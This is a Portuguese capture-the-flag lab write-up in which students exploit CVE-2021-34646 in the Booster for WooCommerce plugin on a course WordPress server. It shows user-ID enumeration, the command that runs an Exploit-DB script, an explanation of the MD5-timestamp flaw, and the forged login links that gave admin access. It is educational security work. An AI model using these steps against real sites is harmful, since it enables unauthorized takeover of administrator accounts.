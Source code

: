 # CTF Semana #3 (Wordpress CVE)

## Reconhecimento e recolha de informação

Após aceder à página  **http://ctf-fsi.fe.up.pt:5001**, um servidor WordPress, começamos por navegar por todas as secções da aplicação web, de modo a recolher informações que nos possam ajudar a encontrar e explorar vulnerabilidades.
Assim sendo, depois de uma análise mais detalhada, encontramos as seguintes dependências/plugin na secção "Additional information", da página do produto "WordPress Hosting":

- Wordpress 5.8.1
- Woocommerce plugin 5.7.1
- Booster for WooCommerce plugin 5.4.3


## Pesquisa e escolha da vulnerabilidade

Uma vez identificados os plugins instalados e as versões dos mesmos, procedemos a uma pesquisa de vulnerabilidades que nos permitissem fazer login no servidor como administrador. Encontramos a **CVE-2021-34646**, uma vulnerabilidade do Booster for WooCommerce plugin 5.4.3, que atendia aos nossos requisitos.

## Exploração da vulnerabilidade

Descoberta a vulnerabilidade, fizemos uma pesquisa no Exploit Database deste CVE (disponível [aqui](https://www.exploit-db.com/exploits/50299)), o que nos forneceu passos detalhados de como explorá-la na plataforma:

1. Acedemos a **http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/**, onde identificamos os IDs dos administradores. Verificamos que ID = 1, uma vez que a primeira conta normalmente criada em sites WordPress é a conta do administrator e raramente é alterada.

2. Executamos o script de Python disponível na página, que usava esse mesmo identificador para lançar o ataque:

````bash
$ python3 exploit.py http://ctf-fsi.fe.up.pt:5001 1
````

## Explicação do ataque

1. Foi feita uma solicitação ao URL inicial do site vulnerável com o parâmetro wcj_user_id definido como o ID do usuário que queríamos explorar (neste caso, com ID=1, seria http://ctf-fsi.fe.up.pt:5001/api?wcj_user_id=1).

<img src="../screenshots/ctf1/request.png" alt="request sent">

2. Assim que a solicitação foi enviada, a função reset_and_mail_activation_link() foi executada, permitindo ao usuário recuperar o user_id fornecido, através de um link de verificação gerado que poderia ser usado para verificar o endereço de e-mail. No entanto, como o código de verificação era simplesmente um hash MD5 do momento da solicitação, a vulnerabilidade poderia ser facilmente explorada.

3. Por fim, bastava formar um link de validação de login com uma chave codificada em Base 64 através do timestamp do momento da solicitação, permitindo que o atacante se autenticasse como o administrador do site.

## Resultados

Como resultados obtivemos os seguintes links:

````
Timestamp: Sat, 07 Oct 2023 14:24:29 GMT
Timestamp (unix): 1696688669

We need to generate multiple timestamps in order to avoid delay related timing errors
One of the following links will log you in...

#0 link for hash 4483648f775bada837cd01ff4912fd7e:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNDQ4MzY0OGY3NzViYWRhODM3Y2QwMWZmNDkxMmZkN2UifQ

#1 link for hash 7cdedfcd573df0e2ee6c62f2733ce7e8:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiN2NkZWRmY2Q1NzNkZjBlMmVlNmM2MmYyNzMzY2U3ZTgifQ

#2 link for hash 5738fc0222e582b5b6441737cdeff829:
http://ctf-fsi.fe.up.pt:5001/my-account/?wcj_verify_email=eyJpZCI6IjEiLCJjb2RlIjoiNTczOGZjMDIyMmU1ODJiNWI2NDQxNzM3Y2RlZmY4MjkifQ
````

A partir dos quais conseguimos aceder à plataforma usando a conta do administrador.

<img src="../screenshots/ctf1/admin.png" alt="admin account">
